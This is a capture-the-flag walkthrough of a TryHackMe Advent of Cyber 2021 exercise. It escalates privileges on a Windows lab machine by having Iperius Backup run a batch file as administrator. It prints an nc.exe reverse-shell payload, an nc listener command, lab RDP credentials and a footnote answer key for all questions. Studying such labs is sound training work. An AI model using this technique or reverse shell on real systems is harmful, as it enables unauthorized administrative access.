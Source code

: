 # TryHackMe - Advent of Cyber 2021 - Day 13
## The Lost the Plan!
> Edward Hartmann
> December 29, 2021

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](Advent%20of%20Cyber%20Table%20of%20Contents.md)  
-  Tags[^1]
-  Flag[^2]

[^1]: #privsec #windows 
[^2]: *Question 1:* `pepper`  
					*Question 2:* `10.0.17763 N/A Build 17763`  
					*Question 3:* `IperiusSvc`  
					*Question 4:* `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`  
					*Question 5:* `thegrinch`  
					*Question 6:* `the-grinch-hack\thegrinch`  
					*Question 7:* `THM-736635221`  
					*Question 8:* `jazzercize`  

## TOC
- [Question 1](#Question-1)
- [Question 2](#Question-2)
- [Questions 3-4](#Questions-3-4)
- [Questions 5-6](#Questions-5-6)

## Walkthrough
In this box we are told that the disaster recovery plan, that was locked down to protect its security and confidentiality, has become inaccessible due to a decrease in privileges of McSkidy's account due to Grinch's shenanigans. Can we escalate the privileges back and save the disaster recovery plan?

To start, either use the Attack Box or RDP into the system with the `xfreerdp` utility:

```
xfreerdp /u:mcskidy /p:Password1 /v:<TARGET_IP>
```

The information included in the TryHackMe walkthrough is summarized in the [Windows Privsec](../../../knowledge-base/vulnerabilities/privesc.md#Windows) section of this note. 
### Privesc
[Top](#TOC)

We are told first that the *Iperius Backup Service* offers a  potential [privesc](../../../knowledge-base/vulnerabilities/privesc.md#Windows) vector due to its potential to run backup tasks with admin privileges despite the local users privilege level. Open the search bar in the bottom of the screen and search `Iperius` and launch the application. 

Start a new backup tasks by clicking the left-most icon on the menu bar and configure as follows. 

![Creating a Backup Task](AoC-2021_Photos/Day_13/01_AoC-Day-13_12-29-21-Iperius.png)

#### Source

In the `Items` tab on this screen select file icon with a `+` sign and set the path to `C:\Users\McSkidy\Desktop` and click `OK`. 

![Backup Path](AoC-2021_Photos/Day_13/02_AoC_Day_13_12-29-21-Backup-Path.png)

#### Destination

On the `Destinations` tab, select the same folder icon and make the destination the `Docuemnts` folder. 

![Destination Path](AoC-2021_Photos/Day_13/03_AoC_Day_13_12-29-21-Destination.png)

#### Executable

Here comes the exploit. In the `Other Processes` tab we can choose to run a program prior to the backup executes, and it will be ran as administrator. If this file is malicious, the attacker can successfully escalate privileges. 

We are instructed to utilize a `.bat`, which stands for `Batch`, a basic executable in windows similar to `.sh` in *UNIX* systems. This `.bat` file will use another file located in `C:\Users\McSkidy\Downloads\nc.exe`. Launch *notepad* and add the following code. 

```
@echo off 

C:\Users\McSkidy\Downloads\nc.exe <HOST_MACHINE_IP> 1337 -e cmd.exe
```

> You find the attacking IP by running `ip a` and using `eth0` for the Attack Box or `tun0` if you are on a VPN. 

![Editing Evil.bat](AoC-2021_Photos/Day_13/04_AoC_Day_13_12-29-21-Editing-Evil-Bat.png)

Save the file as `evil.bat` on the `Desktop`. Notice the little gear icon in the filename? Windows is telling you this is executable. 

What is happening? This file is calling the `Ncat` utility in our `Downloads` folder, a common tool used by attackers to create a reverse shell. Our code is telling `nc` to connect to our attacking machine IP on port `1337` and run a program wiith `-e`. The program we want ran is `cmd.exe`, the command prompt in Windows. 

#### Staging

On your host, prepare a `nc` listener. The great hing about `nc` is that we can connect `nc` to `nc` using a different set of flags. Run this on your host (the attacking host):

`nc -lvnp 1337`

This is listening, providing verbose output, not resolving domain names, and doing all of it on port `1337`. 

![nc Listening](AoC-2021_Photos/Day_13/06_AoC_Day_13_12-29-21-Listening.png)

Let's verify the payload works first. Double click `evil.bat` to run it and check back on your listening host, you should see a shell. Type `whoami` to confirm you are `mcskidy`. We have not escalated privileges yet, but this confirms that the payload works. Disconnect with <kbd>ctrl</kbd>+<kbd>c</kbd>

![Shell Connected](AoC-2021_Photos/Day_13/07_AoC_Day_13_12-29-21-Payload-Confirmed.png)

Great! That payload works, now we just need to run it as administrator using *Iperius*

#### Exploiting
Now we are ready to stage the exploit. Choose `evil.bat` to run on the `Other processes` tab before the backup. 

![Selecting evil.bat](AoC-2021_Photos/Day_13/05_AoC_Day_13_12-29-21-Selecting-Evil-File.png)

Click `Next`, give the job a name. Restart your listener on the attack box! 

On the main screen, right-click your Evil Backup and select `Run backup as service`. Notice that it is running as the admin user.

> User obscured to save the flag, try harder!

![Running Evil Backup](AoC-2021_Photos/Day_13/09_AoC_Day_13_12-29-21-Running-Evil-Backup.png)

If successful, after about a minute you should get a shell on your listener, and typing `whoami` will return 

![The Grinch Shell](AoC-2021_Photos/Day_13/10_AoC_Day_13_12-29-21-THEGRINCH.png)

Bingo! We have an admin shell on the machine. 
### Question-1
[Top](#TOC)
Now that we have a shell as admin, it is time to gather some information. 

The first question is asking for a username. The command `net users` should give is this info. 

![net users Info](AoC-2021_Photos/Day_13/11_AoC_Day_13_12-29-21-net-users.png)

### Question-2
[Top](#TOC)

How about the OS Version? `systeminfo` will tell us about the machine we are on. We can use the command from the guide in the beginning for some cleaner output. 

```
systeminfo | findstr /B /C:"OS Version"
```

![OS Version](AoC-2021_Photos/Day_13/12_AoC_Day_13_12-29-21-OS-Version.png)

### Questions-3-4
[Top](#TOC)

For questions about the services that are running, we want `wmic service list`. But we have a problem...there is a **huge** list of services. Part of learning to use commands is learning the power of those commands. With a little research (such as [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)) you can learn more about the `findstr` command used earlier to find the `OS Name` and `OS Version` and modify it to our needs. 

With `findstr`, we can ignore the case of the string we are searching for with `/i` and use a `regex` search by adding the `/r` flag. The regex we want is `.backup.`. Each `.` stands for a *wildcard* character, meaning all the line needs to contain is `backup` and it will return in the output. 

>Learn more about the `/B` and `/C`commands at the link as well!

It may take a few entries for this question to get the right one because Windows returns notoriously long output...but you'll find it here. 

![wmic Backup Search](AoC-2021_Photos/Day_13/13_AoC_Day_13_12-29-21-wmic-Iperius.png)

You can also identify the path to the service in this image...look closely. 

### Question-4
[Top](#TOC)

Simply type the command `whoami` to identify the user you are currently accessing the machine with. 

![whoami](AoC-2021_Photos/Day_13/14_AoC_Day_13_12-29-21-THEGRINCH.png)

### Questions-5-6
[Top](#TOC)

Finally, we need to find the contents of `flag.txt` and identify information about The Grinch's schedule.  You can find the files in the `Documents` directory of `thegrinch`. Use `cd` and `dirs` to change directories and list the files. The windows CLI command `type` will list the contents of the file for us once you are in the correct directory. Use the following commands. 

```
type flag.txt

type Schedule.txt
```

![Flag and Schedule](AoC-2021_Photos/Day_13/15_AoC_Day_13_12-29-21-Flag-and-Schedule.png)

And there you have it!

***Congratulations on completing this box!***  

See you at the next one &mdash; [Advent of Cyber 3 Day 14](AoC-2021_Day14.md)
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
